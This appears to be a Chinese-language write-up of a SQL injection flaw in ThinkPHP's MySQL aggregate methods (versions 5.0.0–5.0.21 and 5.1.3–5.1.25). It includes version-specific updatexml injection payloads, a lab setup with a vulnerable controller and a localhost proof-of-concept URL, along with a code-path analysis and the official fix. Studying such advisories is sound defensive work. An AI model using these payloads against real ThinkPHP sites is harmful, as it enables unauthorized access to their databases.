





# 5.0.0 <= Thinkphp <= 5.0.21 sql注入漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3163](https://www.zhihuifly.com/t/topic/3163)

# 5.0.0 <= Thinkphp <= 5.0.21 & 5.1.3<=ThinkPHP5<=5.1.25

## 一、漏洞简介

本篇文章，将分析 **ThinkPHP** 中存在的 **SQL注入** 漏洞（所有 **Mysql** 聚合函数相关方法均存在注入）。本次漏洞存在于所有 **Mysql** 聚合函数相关方法。由于程序没有对数据进行很好的过滤，直接将数据拼接进 **SQL** 语句，最终导致 **SQL注入漏洞** 的产生。

## 漏洞概要

## 二、漏洞影响

5.0.0<=ThinkPHP<=5.0.21

5.1.3<=ThinkPHP5<=5.1.25

## 三、复现过程

不同版本 **payload** 需稍作调整：

 **5.0.0~5.0.21** 、 **5.1.3～5.1.10** ：

```
id)%2bupdatexml(1,concat(0x7,user(),0x7e),1) from users%23 
```

**5.1.11～5.1.25** ：

```
id`)%2bupdatexml(1,concat(0x7,user(),0x7e),1) from users%23 
```

## 漏洞环境

通过以下命令获取测试环境代码：

```
composer create-project --prefer-dist topthink/think=5.1.25 tpdemo 
```

将 **composer.json** 文件的 **require** 字段设置成如下：

```
"require": {
    "php": ">=5.6.0",
    "topthink/framework": "5.1.25"
}, 
```

然后执行 `composer update` ，并将 **application/index/controller/Index.php** 文件代码设置如下：

```
<?php
namespace app\index\controller; `class Index

{

public function index()

{

$options = request()->get(‘options’);

$result = db(‘users’)->max($options);

var_dump($result);

}

}` 
```

在 **config/database.php** 文件中配置数据库相关信息，并开启 **config/app.php** 中的 **app_debug** 和 **app_trace** 。创建数据库信息如下：

```
create database tpdemo;
use tpdemo;
create table users(
	id int primary key auto_increment,
	username varchar(50) not null
);
insert into users(id,username) values(1,'Mochazz');
insert into users(id,username) values(2,'Jerry');
insert into users(id,username) values(3,'Kitty'); 
```

### poc

```
http://localhost:8000/index/index/index?options=id`)%2bupdatexml(1,concat(0x7,user(),0x7e),1) from users%23 
```

访问链接，即可触发 **SQL注入漏洞** 。（没开启 **app_debug** 是无法看到 **SQL** 报错信息的）


### 漏洞分析

首先在官方发布的 **5.1.26** 版本更新说明中，发现其中提到该版本包含了一个安全更新。



我们可以查阅其 **commit** 记录，发现其改进了数据库驱动，代码中多了检测特殊字符的片段。接下来我们直接来分析代码。


首先，用户可控数据未经过滤，传入 **Query** 类的 **max** 方法进行聚合查询语句构造，接着调用本类的 **aggregate** 方法。本次漏洞问题正是发生在该函数底层代码中，所以所有调用该方法的聚合方法均存在 **SQL注入** 问题。我们看到 **aggregate** 方法又调用了 **Mysql** 类的 **aggregate** 方法，在该方法中，我们可以明显看到程序将用户可控变量 **$field** ，经过 **parseKey** 方法处理后，与 **SQL** 语句进行了拼接。下面我们就来具体看看 **parseKey** 方法。



**parseKey** 方法主要是对字段和表名进行处理，这里只是对我们的数据两端都添加了反引号。经过 **parseKey** 方法处理后，程序又回到了上图的 **$this->value()** 方法中，该方法会调用 **Builder** 类的 **select** 方法来构造 **SQL** 语句。这个方法应该说是在分析 **ThinkPHP** 漏洞时，非常常见的了。其无非就是使用 **str_replace** 方法，将变量替换到 **SQL** 语句模板中。这里，我们重点关注 **parseField** 方法，因为用户可控数据存储在 **$options['field']** 变量中并被传入该方法。



进入 **parseField** 方法，我们发现用户可控数据只是经过 **parseKey** 方法处理，并不影响数据，然后直接用逗号拼接，最终直接替换进 **SQL** 语句模板里，导致 **SQL注入漏洞** 的发生



### 漏洞修复

官方的修复方法是：当匹配到除了 **字母、点号、星号** 以外的字符时，就抛出异常。


### 攻击总结

最后，再通过一张攻击流程图来回顾整个攻击过程。



## 参考链接

> https://github.com/Mochazz/ThinkPHP-Vuln